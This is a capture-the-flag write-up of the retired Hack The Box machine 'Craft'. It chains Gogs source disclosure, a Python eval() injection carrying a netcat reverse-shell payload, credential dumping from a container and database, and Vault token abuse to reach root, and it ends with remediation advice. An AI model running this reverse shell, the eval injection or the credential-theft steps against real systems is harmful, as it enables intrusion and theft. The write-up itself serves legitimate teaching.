







|Property|Value|
|---|---|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Release Date**|2019-07-13|
|**State**|Retired|
|**IP**|10.129.162.165|
|**Techniques**|vhost enumeration, Gogs source disclosure, Python `eval()` RCE, credential reuse, HashiCorp Vault token abuse|
|**Tags**|#web #privesc #linux #python|

> **Note:** The machine's IP address changes across sections of this writeup due to restarts (`10.129.162.165`, `10.129.163.136`).

---

## Summary

Craft is a medium Linux machine hosting a craft-beer REST API. The main site links to a Gogs instance, which discloses the API's source code and a test script containing valid credentials. Reviewing the commit history reveals that the fix for a "bogus ABV value" bug introduced an `eval()` call on user input, turning the ABV field into a remote code execution primitive. This is used to get a shell inside a Docker container running the API as root. The container's Flask settings file discloses MySQL credentials, and the `user` table in the database holds plaintext passwords for three users. One of them, `gilfoyle`, has a private repository on Gogs containing an SSH key, granting access to the host. A leftover HashiCorp Vault token in `gilfoyle`'s home directory is used to request a one-time SSH password for `root` through Vault's SSH secrets engine, completing the box.

---

## Enumeration

```
echo '10.129.162.165 craft.htb' | sudo tee -a /etc/hosts
```

### Nmap Scan

```
sudo nmap -sC -sV craft.htb --open
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
443/tcp open  ssl/http nginx 1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
```

A full TCP port scan turns up two more ports beyond the usual ssh/https pair:

```
sudo nmap -p- craft.htb --open
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
6022/tcp open  x11
```

```
nmap -p 6022 craft.htb -sV -sC
PORT     STATE SERVICE VERSION
6022/tcp open  ssh     Golang x/crypto/ssh server (protocol 2.0)
```

Port 6022 runs a second, Go-based SSH server (this turns out to belong to HashiCorp Vault's SSH secrets engine, used later during privilege escalation).

### Web Enumeration

The site at `https://craft.htb` is "Craft", described as a REST API for craft beers.



The **API** link redirects to `https://api.craft.htb/api/`, and the logo links to `https://gogs.craft.htb/`, a Gogs (self-hosted Git) instance. Both are added to `/etc/hosts`:

```
echo '10.129.162.165 api.craft.htb' | sudo tee -a /etc/hosts
echo '10.129.162.165 gogs.craft.htb' | sudo tee -a /etc/hosts
```

### Vhost Enumeration

```
gobuster vhost -u https://craft.htb -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -k --append-domain

api.craft.htb      Status: 404 [Size: 233]
vault.craft.htb    Status: 404 [Size: 19]
gogs.craft.htb     Status: 200 [Size: 7798]
```

Another vhost, `vault.craft.htb`, is discovered this is the web UI/API for HashiCorp Vault, which becomes relevant during privilege escalation.

---

## Foothold

### Source Code Disclosure via Gogs

Browsing to `gogs.craft.htb` and opening the `craft-api` repository's **Issues** tab shows a public bug report, "Bogus ABV values":



`dinesh` (the reporter) points out that the API lets a brew be created with an invalid ABV (alcohol-by-volume) value, and includes a `curl` command using an API token in his comment. `ebachman` (the repo owner) asks him to fix it himself, and the commit `c414b16057` is linked as the fix.

### The Vulnerable Fix

Looking at that commit shows the "fix" for the bogus ABV check:



```python
# make sure the ABV value is sane.
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

Instead of validating that `abv` is a number, the new code builds a Python expression as a string and runs it through `eval()`. Since `request.json['abv']` is inserted directly into that string with no sanitization, whatever is sent in the `abv` field is executed as Python code.

### Recovering Valid Credentials

The repo also contains a `tests/test.py` script (added in an earlier commit) that exercises the API and conveniently hardcodes working credentials:

 

```python
response = requests.get('https://api.craft.htb/api/auth/login',
                         auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

Credentials recovered: `dinesh:4aUh0A8PbVJxgd`

### Exploitation

The test script is copied locally and the real ABV brew request is modified to abuse the `eval()` sink instead of sending a numeric value. Since `eval()` runs arbitrary Python, a one-liner that imports `os` and spawns a reverse shell is injected into the `abv` field:

```python
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.74 4444 >/tmp/f')"
```

The script first logs in as `dinesh` to obtain a valid API token, then POSTs this payload to `/api/brew/`:

```python
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(response.text)['token']
headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}

brew_dict = {'abv': "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.74 4444 >/tmp/f')",
             'name': 'bullshit', 'brewer': 'bullshit', 'style': 'bullshit'}
requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json.dumps(brew_dict), verify=False)
```

```
nc -lvnp 4444
connect to [10.10.15.74] from (UNKNOWN) [10.129.163.136] 35495
/opt/app # whoami
root
```

A shell is obtained as `root` — but inside a Docker container (hostname `5a3d243127f5`), not on the actual host.

---

## Lateral Movement

### Database Credentials

The Flask settings file in the container directly discloses database credentials:

```
/opt/app # find / -name "settings.py" 2>/dev/null
/opt/app/craft_api/settings.py

/opt/app # cat /opt/app/craft_api/settings.py
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
```

### Dumping the `user` Table

The `db` host is reachable from inside the container (it's a linked Docker service), so the credentials above are used directly with `pymysql`:

```python
python3 -c "
import pymysql
conn = pymysql.connect(host='db', user='craft', password='qLGockJ6G2J75O', database='craft')
cur = conn.cursor()
cur.execute('select * from user')
print(cur.fetchall())"
```

```
((1, 'dinesh', '4aUh0A8PbVJxgd'), (4, 'ebachman', 'llJ77D8QFkLPQB'), (5, 'gilfoyle', 'ZEU3N8WNM2rh4T'))
```

Three sets of plaintext credentials are recovered. `dinesh`'s password matches what was already found in the test script; `gilfoyle`'s is new.

### From gilfoyle (Gogs) to the Host

Logging in to Gogs as `gilfoyle` reveals a private repository, `craft-infra`, containing deployment configs, including an SSH private key:



The key is downloaded and used to SSH into the host directly (not the Docker container):

```
ssh gilfoyle@craft.htb -i id_rsa.key
Enter passphrase for key 'id_rsa.key': ZEU3N8WNM2rh4T   # same as his DB password
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)
```

The key's passphrase is the same password recovered from the database — a case of straightforward credential reuse.

---

## User Flag

```
gilfoyle@craft:~$ cat user.txt
2cc93f35a5ee8e3c2c87352b2f0f5d13
```

---

## Privilege Escalation

### Enumeration

`gilfoyle`'s home directory contains a leftover HashiCorp Vault authentication token:

```
gilfoyle@craft:~$ ls -la
-rw------- 1 gilfoyle gilfoyle   36 Feb  9  2019 .vault-token

gilfoyle@craft:~$ cat .vault-token
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
```

### Understanding the Vault Setup

The same `craft-infra` repository on Gogs also contains `vault/secrets.sh`, showing how Vault is configured on this box:



```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

This enables Vault's **SSH secrets engine** and defines a role, `root_otp`, that hands out **one-time passwords (OTP)** for logging in as `root` on any host (`cidr_list=0.0.0.0/0`). Vault's SSH OTP backend works by installing a PAM/helper module on the target that validates OTPs against Vault — the Go SSH server seen earlier on port 6022 is Vault's own helper listener for this. Anyone holding a valid Vault token that is authorized to use the `root_otp` role can request a fresh root password on demand.

### Exploitation

First, the recovered token is confirmed to have access to the role:

```shell
curl -sk -H "X-Vault-Token: f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9" \
  https://vault.craft.htb/v1/ssh/roles/root_otp
```

```json
{"data":{"cidr_list":"0.0.0.0/0","default_user":"root","key_type":"otp","port":22}}
```

A one-time credential is requested for a root SSH login to the target:

```shell
curl -sk -X POST -H "X-Vault-Token: f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9" \
  -d '{"ip":"10.129.162.165","username":"root"}' \
  https://vault.craft.htb/v1/ssh/creds/root_otp
```

```json
{"data":{"ip":"10.129.162.165","key":"1a7cdc6d-677f-f676-f37a-a7f4e27997ce","key_type":"otp","port":22,"username":"root"}}
```

The returned `key` is a single-use password, valid only for this SSH login. It is used immediately:

```shell
ssh root@craft.htb
(root@craft.htb) Password: 1a7cdc6d-677f-f676-f37a-a7f4e27997ce
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Root Flag

```
root@craft:~# cat /root/root.txt
ecb211a09bb65535ebf7d52e066ed386
```

---

## Remediation

- **`eval()` code injection:** Never pass user-controlled input to `eval()`, `exec()`, or similar dynamic-evaluation functions. Validate the `abv` field as a proper decimal/float type before using it.
- **Credentials in Git history and issues:** API tokens and passwords pasted into issue comments or test scripts remain in the Git history even if later "cleaned up". Rotate any credential that was ever committed, and scrub history if necessary.
- **Plaintext password storage:** The `user` table stored passwords in cleartext. Hash passwords with a modern algorithm (bcrypt/Argon2) and never return them from any code path.
- **Password/passphrase reuse:** `gilfoyle`'s database password doubled as the passphrase for his private SSH key. Use distinct credentials for every system and secret.
- **Leftover Vault tokens:** A long-lived, unscoped Vault token (`.vault-token`) was left in a user's home directory with access to a `root_otp` SSH role covering `0.0.0.0/0`. Scope Vault tokens and roles tightly (specific CIDR ranges, short TTLs), and never leave active tokens lying around on disk.
- **Docker container running as root:** The API container ran as `root` internally, turning the `eval()` RCE into full control of the container immediately. Run application containers as an unprivileged user wherever possible.

---

## References

- [Craft-API GitHub mirror / write-up context](https://github.com/momenbasel/htb-writeups)
- [HashiCorp Vault — SSH Secrets Engine (One-Time SSH Password)](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords)
- [Python `eval()` — Code Injection](https://semgrep.dev/docs/cheat-sheets/python-code-injection)